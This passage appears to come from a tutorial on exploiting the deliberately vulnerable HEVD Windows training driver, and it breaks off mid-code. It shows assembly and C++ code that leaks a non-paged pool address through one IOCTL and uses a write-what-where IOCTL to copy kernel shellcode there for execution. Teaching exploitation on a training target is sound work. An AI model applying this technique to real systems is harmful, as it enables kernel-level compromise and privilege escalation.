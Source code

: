 ```Assembly
get_kernel_shellcode_size PROC
	call get_kernel_shellcode_address
	mov rcx, rax
	mov rax, kernel_shellcode_end
	sub rax, rcx
	ret
get_kernel_shellcode_size ENDP

END
```

And within our `main.cpp` file we can access the helper functions which give us both the payload address and size:

```C++
[...]
extern "C" {
    extern uint8_t* get_kernel_shellcode_address(void);
    extern uint32_t get_kernel_shellcode_size(void);
};

int main()
{
[...]
```

Now we can leverage the write-what-where primitve to copy whatever lies inside `kernel_shellcode_start` and `kernel_shellcode_end` tags to the leaked page and execute it.
Putting all of this together the code looks as follows:

```C++
[...]
    uint8_t* non_paged_pool = 0x0;
	
    {
        const uint32_t IOCTL_MEM_DISCLOSURE = 0x22203f;
        const uint32_t buffer_size = 0x400;
        uint8_t buffer[buffer_size];
	
        printf("Leaking non-paged pool memory address... ");
	
        DeviceIoControl(
            hevdDevice,
            IOCTL_MEM_DISCLOSURE,
            NULL,
            0,
            buffer,
            buffer_size,
            NULL,
            NULL
        );
	
        uint8_t* leak_address = *(uint8_t**)((uint64_t)buffer + 0x210);
        non_paged_pool = (uint8_t*)((uint64_t)leak_address & (uint64_t)0xfffffffffffff000);
	
        printf("Done! Non paged pool at %p\n", non_paged_pool);
    }
	
    {
        const uint32_t IOCTL_WRITE_WHAT_WHERE = 0x22200b;
        uint8_t* kernel_shellcode = get_kernel_shellcode_address();
        uint32_t kernel_shellcode_size = get_kernel_shellcode_size();
	
        printf("Writing %u bytes of shellcode to non-paged pool... ", kernel_shellcode_size);
	
```